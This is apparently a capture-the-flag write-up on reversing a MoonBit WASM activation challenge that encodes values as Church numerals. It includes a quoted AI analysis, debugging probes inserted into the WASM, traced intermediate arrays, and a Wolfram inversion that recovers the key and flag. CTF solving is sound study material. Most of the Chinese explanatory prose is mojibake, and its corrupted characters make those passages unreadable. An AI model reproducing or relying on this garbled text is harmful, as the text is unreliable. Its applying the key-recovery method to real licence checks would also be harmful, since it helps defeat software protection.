*   **Shuffling:** Arrays `a`, `b`, and `c` are shuffled using the fixed-seed PRNG `r`. This means the *permutations* applied are constant. Let the permutation applied to `c` be `P`. The shuffled `c` depends on `s`, but its element order is now fixed by `P`.
*   **Mixing Loops:** Two loops (`label1`, `label2`) iterate through the shuffled `c` array, modifying elements based on their neighbors (`c[i]` depends on `c[i-1]`, `c[i-1]` depends on `c[i]`). These loops mix the state across the array elements.
*   **Mapping with `a`, `b`:** The mixed array `c` is further transformed element-wise using `mapi` (map with index), incorporating the constant shuffled arrays `a` and `b`. The result is `func_array`, still length 16.
*   **Evaluation (`func_array` -> `int_array`):** The crucial step. `func_array` (length 16, containing complex function objects) is mapped using `sub_401011`.
    ```wasm
    ;; Simplified sub_401011(g):
    ;;   f = (x => x + 1)
    ;;   h = g(f)  // Apply g (a function composer) to f
    ;;   result = h(0) // Evaluate the result at 0
    ```
    This function takes the complex function object `g` from `func_array[i]`, applies it to the successor function `f(x)=x+1`, and evaluates the result at 0. In the context of functional programming (especially Church numerals), applying a function `g` (representing `k`) to the successor function and then to 0 often calculates the integer `k`. So, this step likely converts the function object `func_array[i]` into an integer `int_array[i]`, representing the computation "encoded" in the function object. The result is `int_array` of length 16.
*   **Byte Conversion (`int_array` -> `final_result`):**
    1.  `map|Int+Char|`: Casts `int_array` (len 16) to `char_array` (len 16). Assumes `i32` values are treated as codepoints.
    2.  `String::from_array`: Creates a string from these codepoints.
    3.  `String::to_bytes`: Converts the string to bytes. *This is where the length likely changes.* If each `Char` (effectively `i32`) is encoded as two bytes (e.g., taking the lower 16 bits, big-endian), the byte array will have length 32.
    4.  `Array::from_iter|Byte|`: Collects bytes into an `Array<Byte>` (len 32).
    5.  `map|Byte+Int|`: Casts bytes back to integers. Result is `final_result` (len 32).

[…]

</blockquote>
</details>

动æ€è°ƒè¯•æ—¶ï¼Œå‘ç°ç›´åˆ°encrypt函数的最å一步之å‰ï¼Œæ€ä¹ˆéƒ½çœ‹ä¸åˆ°ä¸­é—´å˜é‡å€¼ï¼Œå› ä¸ºå˜é‡å…¨æ˜¯é—­åŒ…数组。在还未放出æ示时，Gemini就已ç»ç‚¹æ˜äº†ï¼šæ ¹æ®æœ€å一步的调用æ“作`g(x => x + 1)(0)`，æ¨æ–­å‡ºä¸­é—´å˜é‡ä»¥ä¸˜å¥‡æ•°å½¢å¼ä¿å­˜ã€‚

在纯粹λ演算中，唯一的数æ®ç±»å‹æ˜¯å‡½æ•°ã€‚é负整数通过嵌套调用表示：

```js
function zero(f, x) { return x }
function one(f, x) { return f(x) }
function two(f, x) { return f(f(x)) }
function three(f, x) { return f(f(f(x))) }
```

这就是丘奇数。

在MoonBitçš„name mangling方案中，x为整å‹çš„丘奇数的函数签å为`<<Int>=>Int>=><Int>=>Int`。`=>`是箭头⇒，`<Int>`是括起的⟨Int⟩，这字符选得真抽象。正确æ’版的è¯æ˜¯è¿™æ ·çš„：<math><mo minsize="120%">⟨</mo><mo>⟨</mo><mtext>Int</mtext><mo>⟩</mo><mo>⇒</mo><mtext>Int</mtext><mo minsize="120%">⟩</mo><mo>⇒</mo><mo>⟨</mo><mtext>Int</mtext><mo>⟩</mo><mo>⇒</mo><mtext>Int</mtext></math>；翻译æˆTypeScriptçš„è¯åˆ™æ˜¯

```ts
type Church<T> = (f: (s: T) => T) => (x: T) => T
type ChurchInt = Church<number>
```

丘奇数中的类å‹å‚æ•°Tä¸è¡¨è¾¾çš„数值无关，åªåœ¨æ±‚值时使用。

Array::map有两个泛å‹å‚数，用加å·éš”开。`$@moonbitlang/core/builtin.Array::map|<<Int>=>Int>=><Int>=>Int+<<Int>=>Int>=><Int>=>Int|`是map的一个å®ä¾‹åŒ–ç±»å‹ï¼Œå°†ä¸˜å¥‡æ•°æ•°ç»„映射到丘奇数数组。写æˆTypeScriptçš„è¯ï¼š

```ts
declare function mapArray<T, R>(arr: T[], f: (x: T) => R): R[]
declare var mapArrayFromChurchToChurch: typeof Array_map<Church, Church>
```

阅读代ç å¯ä»¥ç¡®è®¤ä»¥ä¸‹è¾…助函数。

<figure>

函数签å|功能
-|-
<code class="language-ts">401536&lt;T&gt;(x: Church&lt;T&gt;): Church&lt;T&gt;</code>|丘奇数+1
<code class="language-ts">401221&lt;T&gt;(x: Church&lt;T&gt;): Church&lt;T&gt;</code>|丘奇数×2
<code class="language-ts">401641&lt;T&gt;(x: Int): Church&lt;T&gt;</code>|Int转丘奇数
<code class="language-ts">401011(x: Church&lt;Int&gt;): Int</code>|丘奇数转Int
<code class="language-ts">401554&lt;T&gt;(n: Church<[T, T]>): Church&lt;T&gt;</code>|丘奇数泛å‹å‚数转æ¢

</figure>

因为知é“æºç æ²¡æœ‰ç‰¹åŒ–，åªéœ€é˜…读T = Int的定义，T为其他类å‹æ—¶çš„行为是一样的。

有了å两个函数，就å¯ä»¥æŠŠè°ƒè¯•å™¨ä¸­çœ‹ä¸å‡ºå€¼çš„丘奇数转æ¢æˆæ•´å‹ã€‚因为汇编å¯é€†ï¼Œå¯ä»¥åœ¨æƒ³æ¢æµ‹çš„ä½ç½®æ’å…¥æ¢é’ˆæŒ‡ä»¤ï¼Œå†åœ¨è°ƒè¯•å™¨ä¸­è¿è¡Œä»¥æŸ¥çœ‹è¡¨è¾¾å¼çš„值。

```diff wasm
 (drop (call $username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|
   (local.get $r/628)
   (local.get $b/631)))
+(drop (call $@moonbitlang/core/builtin.Array::map|<<Int>=>Int>=><Int>=>Int+Int|
+  (local.get $b/631)
+  (ref.as_non_null (global.get $username/ActivateIt.sub_401011))))
+(drop (i64.const 1145141919810))
 (drop
  (call $username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|
   (local.get $r/628)
   (local.get $c/638)))
+(drop (call $@moonbitlang/core/builtin.Array::map|<<Int>=>Int>=><Int>=>Int+Int|
+  (call $@moonbitlang/core/builtin.Array::map|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>+<<Int>=>Int>=><Int>=>Int|
+    (local.get $c/638)
+    (ref.as_non_null (global.get $username/ActivateIt.sub_401554|Int|)))
+  (ref.as_non_null (global.get $username/ActivateIt.sub_401011))))
+(drop (i64.const 1145141919810))
```

drop const是一ç§æ€’猫调试法，用äºåœ¨è°ƒè¯•å™¨ä¸­å¿«é€Ÿå®šä½åˆ°è¯¥æŒ‡ä»¤ã€‚

> 怒猫æ¡ä»¶æ–­ç‚¹ï¼šæºç ä¸­æœ¬æ¥æ²¡æœ‰æ€’猫，在想è¦è°ƒè¯•å¤„加上怒猫，è¿è¡Œç»“æœä¸­å‡ºç°æ€’猫的ä½ç½®å°±æ˜¯ç›®æ ‡ä½ç½®äº§ç”Ÿçš„。这比用特殊符å·å¥½ç”¨ï¼Œå› ä¸ºæœ‰æ—¶ç‰¹æ®Šç¬¦å·ä¼šè¢«è½¬ä¹‰ï¼Œè€Œæ€’猫ä¸ä¼šã€‚

å³ä½¿è°ƒè¯•æ–­ç‚¹åœ¨WASM内，也å¯ä»¥åœ¨æ§åˆ¶å°è¾“å…¥JavaScript表达å¼æ±‚值，例如这个表达å¼å¯ä»¥å°†æ ˆåº•çš„Int数组引用转æ¢æˆJS数组。

```js
Array.from(stack[0].value.$field0.value, o => o.value)
```

整个encrypt函数中，ä¸è¾“入有关的就åªæœ‰c数组；aå’Œb数组ç»å†äº†ä¸€é€šåˆæ˜¯SM3åˆæ˜¯shuffleçš„æ“作，但ä»å¤´åˆ°å°¾éƒ½è·Ÿè¾“入没关系，如æœéœ€è¦çš„è¯ç›´æ¥ä¸‹æ–­ç‚¹æŠŠå€¼å·å‡ºæ¥å°±å¥½äº†ã€‚

输入1145141919810233时，通过观察打å°å€¼ï¼Œå¾—到c数组的几步å˜åŒ–如下：

```js
s = [1, 1, 4, 5, 1, 4, 1, 9, 1, 9, 8, 1, 0, 2, 3, 3]
// 映射数字0~9到其平方å‡ä¸€
c = [0, 0, 15, 24, 0, 15, 0, 80, 0, 80, 63, 0, 0, 3, 8, 8]
// ä¹±åºï¼šc = [c[6], c[2], c[0], c[8], c[9], c[13], c[5], c[1], c[15], c[3], c[11], c[7], c[4], c[12], c[10], c[14]]
c = [0, 15, 0, 0, 80, 3, 15, 0, 8, 24, 0, 80, 0, 0, 63, 8]
// å‰ç¼€å’Œ + 下标
// æ ¹æ®è¿™æ­¥é‡Œé‡å¤å‡ºç°çš„237å¯çŸ¥å®é™…上有-1，但是转Int转ä¸å‡ºæ¥
c = [0, 16, 17, 18, 99, 103, 119, 120, 129, 154, 155, 236, 237, 237, 301, 310]
// å缀和
c = [2251, 2251, 2235, 2218, 2200, 2101, 1998, 1879, 1759, 1630, 1476, 1321, 1085, 848, 611, 310]
// +16
[2267, 2267, 2251, 2234, 2216, 2117, 2014, 1895, 1775, 1646, 1492, 1337, 1101, 864, 627, 326]
// ×[6, 1, 5, 10, 8, 16, 13, 4, 3, 2, 3, 10, 15, 5, 1, 1]
[13602, 2267, 11255, 22340, 17728, 33872, 26182, 7580, 5325, 3292, 4476, 13370, 16515, 4320, 627, 326]
// +[111, 114, 100, 52, 84, 117, 58, 22, 47, 107, 32, 29, 11, 31, 91, 73]
[13713, 2381, 11355, 22392, 17812, 33989, 26240, 7602, 5372, 3399, 4508, 13399, 16526, 4351, 718, 399]
// u16拆æˆu8（å°ç«¯åºï¼‰
[145, 53, 77, 9, 91, 44, 120, 87, 148, 69, 197, 132, 128, 102, 178, 29, 252, 20, 71, 13, 156, 17, 87, 52, 142, 64, 255, 16, 206, 2, 143, 1]
```

因为æ¯ä¸€æ­¥çš„æ“作都很简å•ï¼Œéƒ½ä¸éœ€è¦æŠŠaå’Œb导出æ¥ï¼Œå•çº¯æ ¹æ®æ•°æ®å°±èƒ½çŒœå‡ºæ¥ã€‚

æ¯ä¸€æ­¥éƒ½æ˜¯å¯é€†çš„，将targetå¤åŸå³å¯ã€‚

```wolfram
Sqrt[Permute[Differences[Prepend[-Differences[Append[
  (Partition[{
    141, 63, 247, 10, 173, 52, 28, 104, 228, 82, 101, 159, 217, 121, 242, 34,
    101, 24, 67, 15, 39, 20, 95, 59, 239, 72, 17, 19, 19, 3, 175, 1
  }, 2] . {1, 256} -
  {111, 114, 100, 52, 84, 117, 58, 22, 47, 107, 32, 29, 11, 31, 91, 73}) /
  {6, 1, 5, 10, 8, 16, 13, 4, 3, 2, 3, 10, 15, 5, 1, 1} - 16, 0]] -
  Range[0, 15], 0]], {6, 2, 0, 8, 9, 13, 5, 1, 15, 3, 11, 7, 4, 12, 10, 14} + 1] + 1]
```

æ“作上述步骤时å‘æ’…ä¸å¯¹åŠ²ï¼šä¸ºä»€ä¹ˆè®¡ç®—出的中间结æœå’Œæˆ‘测试时所用的数æ®å¦‚此相似？该ä¸ä¼šâ€¦â€¦

正确答案是1145141919810721。

我还在想最å三ä½ç”¨ä»€ä¹ˆè¡¥é½ï¼ŒåŸæ¥è¿˜å¯ä»¥è¿™æ ·è§£å†³å•Šï¼homo特有的å分甚至ä¹åˆ†çš„智慧（èµèµï¼‰

解ç å得到的flag.pdf，是维基百科Church encodingè¯æ¡ï¼Œå·æœ«é™„有flag。
